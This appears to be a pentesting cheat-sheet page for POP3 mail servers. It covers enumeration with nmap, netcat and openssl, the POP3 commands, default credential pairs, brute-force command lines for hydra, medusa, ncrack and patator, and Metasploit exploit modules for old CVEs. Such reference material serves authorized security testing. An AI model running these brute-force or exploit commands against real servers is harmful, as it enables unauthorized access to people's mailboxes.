 ```yaml
---
title: POP3 Pentesting Best Practices
categories: [pentesting protocols,pop3]
tags: [pentesting,pop3,best practicies]
comments: true
---
```


# POP3

> POP3 usually uses ports 110, 995
{: .prompt-tip }

# What is POP3?

POP3 stands for Post Office Protocol. As the name suggests, it allows you to use your email inbox like a post office – emails are downloaded onto your computer and removed from the mail server.

When accessing your emails using the POP3 protocol, a copy of the emails is created and stored locally on your computer. The originals are usually, but not always, removed from the mail server. In other words, emails are tied to the specific device. Once the email is downloaded onto one device (and removed from the mail server), it cannot be accessed by another email client or device.

```bash
PORT     STATE SERVICE               VERSION
110/tcp  open  pop3                  Zimbra Collabration Suite pop3d
```

# POP3 Pentesting

| <img src="https://www.shodan.io/static/img/favicon.png" alt="https://www.shodan.io/static/img/favicon.png" width="20px" /> Shodan search query : |
| --- |
| port:110, 995 |

><h2>Enumeration</h2>

<h3>Banner Grabbing</h3>

```bash
telnet 10.10.x.x 110
nc -nv 10.10.x.x 110
nmap -p110 --script=banner 10.10.x.x
nmap -p110 --script=pop3-ntlm-info 10.10.x.x
msf > use auxiliary/scanner/pop3/pop3_version #MetasploitFramework
openssl s_client -connect <IP>:995 -crlf -quiet
```

![Untitled](/assets/img/pitcures/pop3/pop3.png)

<h3>Capabilities</h3>

```bash
#All are default scripts
nmap --script "pop3-capabilities or pop3-ntlm-info" -sV -port 110 192.168.x.x
# Retrieve POP3 server capabilities (CAPA, TOP, USER, SASL, RESP-CODES, LOGIN-DELAY, PIPELINING, EXPIRE, UIDL, IMPLEMENTATION)  
nmap -v -sV --version-intensity=5 --script pop3-capabilities -p T:110 192.168.x.x
```

![Untitled](/assets/img/pitcures/pop3/pop31.png)

![Untitled](/assets/img/pitcures/pop3/pop32.png)

The `pop3-ntlm-info` plugin will return some "**sensitive**" data (Windows versions).

<h2>POP3 Commands</h2>

```bash
POP commands:
  USER uid           Log in as "uid"
  PASS password      Substitue "password" for your actual password
  STAT               List number of messages, total mailbox size
  LIST               List messages and sizes
  RETR n             Show message n
  DELE n             Mark message n for deletion
  RSET               Undo any changes
  QUIT               Logout (expunges messages if no RSET)
  TOP msg n          Show first n lines of message number msg
  CAPA               Get capabilities
```

<h2>Capturing POP3 Packages</h2>

```bash
msf > use auxiliary/server/capture/pop3 #MetasploitFramework
```

<h2>POP3 Credentials</h2>

<h3>Authentication Checking (classical credentials)</h3>

| USER | PASS |
| --- | --- |
| admin | admin |
| root | root |
| root | toor |

<h3>Brute Forcing</h3>

```bash
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V
hydra -t 2 -L users.list -P passwords.list -M 10.10.x.x.list -s 110 pop3
# Try to bruteforce POP3 accounts
Nmap: pop3-brute –script-args userdb=users.list,passdb=passwords.list
nmap --script pop3-brute --script-args pop3loginmethod=SASL-LOGIN -p T:110 IP
nmap --script pop3-brute --script-args pop3loginmethod=SASL-CRAM-MD5 -p T:110 IP
nmap --script pop3-brute --script-args pop3loginmethod=APOP -p T:110 IP
msf > use auxiliary/scanner/pop3/pop3_login #MetasploitFramework
medusa -t 2 -T 2 -U users.list -P passwords.list -H 10.10.x.x.list -n 110 -M pop3
ncrack -g CL=2 -U users.list -P passwords.list -iL 10.10.x.x.list -p pop3:110 -oA output
patator pop3_login host=10.10.x.x user=FILE1 password=FILE0 0=users.list 1=passwords.list -x ignore:fgrep=’incorrect password or account name’
```

<h2>POP3 Vulnerabilities</h2>

```bash
#Seattle Lab Mail 5.5 [CVE-2003-0264]
msf > use exploit/windows/pop3/seattlelab_pass #MetasploitFramework
Exploit-DB: 638.py, 643.c, 646.c
#Cyrus – Gentoo 2006.0 Linux 2.6 [CVE-2006-2502]
msf > use exploit/linux/pop3/cyrus_pop3d_popsubfolders #MetasploitFramework
```